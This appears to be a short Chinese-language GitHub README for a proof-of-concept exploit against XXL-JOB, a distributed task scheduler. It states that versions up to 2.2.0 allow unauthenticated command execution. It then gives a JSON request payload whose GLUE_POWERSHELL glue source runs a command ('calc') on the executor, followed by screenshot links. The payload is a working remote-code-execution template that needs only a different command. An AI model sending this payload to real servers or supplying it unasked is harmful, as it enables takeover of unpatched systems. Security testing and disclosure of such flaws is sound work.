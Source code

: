 # xxl-job-rce

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。
在xxl-job<= 2.2.0版本存在未授权命令执行

## payload:
```
{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![image](https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-powershell.png)
![image](https://github.com/mrknow001/xxl-job-rce/blob/main/xxl-job-python.png)
